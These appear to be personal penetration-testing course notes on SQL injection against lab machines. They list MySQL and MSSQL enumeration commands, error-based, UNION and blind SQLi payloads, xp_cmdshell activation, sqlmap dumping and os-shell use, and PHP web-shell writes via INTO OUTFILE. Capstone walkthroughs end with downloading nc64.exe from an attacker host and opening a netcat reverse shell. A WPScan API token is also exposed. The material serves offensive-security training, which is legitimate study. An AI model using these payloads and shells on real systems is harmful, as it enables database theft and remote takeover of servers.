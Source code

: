 - https://portswigger.net/web-security/sql-injection/cheat-sheet
## 10.1.2. DB Types and Characteristics

```bash
mysql -u root -p'root' -h $IP -P 3306

select version();

select system_user();

show databases;

SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'offsec';
```

```bash
git clone https://github.com/fortra/impacket.git

impacket-mssqlclient Administrator:Lab123@$IP -windows-auth

SELECT @@version;

SELECT name FROM sys.databases;

SELECT * FROM offsec.information_schema.tables;

select * from offsec.dbo.users;
```

## 10.2.1. Identifying SQLi via Error-based Payloads

- https://www.php.net/manual/en/reserved.variables.php

```bash
offsec' OR 1=1 -- //




' or 1=1 in (select @@version) -- //

' OR 1=1 in (SELECT * FROM users) -- //

' or 1=1 in (SELECT password FROM users) -- //

' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

## 10.2.2. UNION-based Payloads

For **UNION** SQLi attacks to work, we first need to satisfy two conditions:

1. The injected **UNION** query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.

```bash
' or 1=1 in (SELECT password FROM users) -- //

%' UNION SELECT database(), user(), @@version, null, null -- //

' UNION SELECT null, null, database(), user(), @@version  -- //

' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

' UNION SELECT null, username, password, description, null FROM users -- //
```

## 10.2.3. Blind SQL Injections

Although "boolean-based" might not seem like a blind SQLi variant, the output used to infer results comes from the web application, not the database itself.

```bash
http://$IP/blindsqli.php?user=offsec' AND 1=1 -- //

http://$IP/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

Qualora dovesse funzionare la time-based SQLi e il database fosse MSSQL, si potrebbe fare un tentativo con il seguente payload:

```bash
EXEC xp_cmdshell 'ping $KALI_IP';--
```

Per verificare che il comando venga eseguito:

```bash
sudo tcpdump -i eth0    
```

Fonte:
- https://medium.com/@harrmahar/escalating-time-based-sql-injection-to-rce-using-xp-cmdshell-1b724b8e3c90
## 10.3.1. Manual Code Execution

```bash
impacket-mssqlclient Administrator:Lab123@$IP -windows-auth

EXECUTE sp_configure 'show advanced options', 1;

RECONFIGURE;

EXECUTE sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';

' UNION SELECT "<?php sIst3m($G3T['commd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

## 10.3.2. Automating the Attack

Another sqlmap core feature is the _--os-shell_ parameter, which provides us with a full interactive shell.

```bash
sqlmap -u http://$IP/blindsqli.php?user=1 -p user

sqlmap -u http://$IP/blindsqli.php?user=1 -p user --dump

sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

## Capstone 1

```bash
wpscan --url http://alvida-eatery.org/ --api-token "pHNLYLEKyoUdl5BfdPuehtLqRmUbvszC9CrnoYHAn3o"

https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
```

## Capstone 2

```bash
sqlmap  --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" -r request.txt --proxy http://127.0.0.1:8080 --dump

POST / HTTP/1.1
Host: forestsave.lab
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: http://forestsave.lab
Connection: close
Referer: http://forestsave.lab/
Upgrade-Insecure-Requests: 1

mail-list='+union+select+null,null,null,null,'<?php+sistem($_GEllT["cmkkd"]);+?>',null+into+outfile+'/var/www/html/rce.php'#
```
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Capstone 3

```bash
POST /class.php HTTP/1.1
Host: $IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://$IP
Connection: close
Referer: http://192.168.205.49/class.php
Upgrade-Insecure-Requests: 1

weight=22&height=2&age=2&gender=Male&email=mda%40mam
```
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Capstone 4

```bash
POST /login.aspx HTTP/1.1
Host: 192.168.161.50
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 3155
Origin: http://192.168.161.50
Connection: close
Referer: http://192.168.161.50/login.aspx
Upgrade-Insecure-Requests: 1

__VIEWSTATE=%2FwEPDwUKMjA3MTgxMTM4NwlkOjJmYzQyMjNkLTAzYWItNDgxOS04ZTA1LTM2NDk1NDgxNzUzMg0KRXJyb3IgTnVtYmVyOjEwMixTdGF0ZToxLENsYXNzOjE1ZGRkVFC%2F6v5snGlFYymiWHPR4AzHJRVKU0rG1FrEJvRKG8s%3D&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=%2FwEdAASKBjaiVRLm6mvIyfm2W8X2G8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb6djziaeJFhooRbGCXcWvn41xBW2lHjTr1%2BgY3gKkEEwo%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox=QUAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ctl00%24ContentPlaceHolder1%24PasswordTextBox=&ctl00%24ContentPlaceHolder1%24LoginButton=Login

sqlmap  --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" -r request4.txt --proxy http://127.0.0.1:8080 --os-shell

python3 -m http.server 9999

curl -o C:\windows\temp\nc64.exe http://192.168.45.156:9999/nc64.exe

C:\windows\temp\nc64.exe 192.168.45.156 4444 -e cmd.exe

dir /s /b flag.txt 2>nul | findstr /i /r ".*\\flag\.txt"
```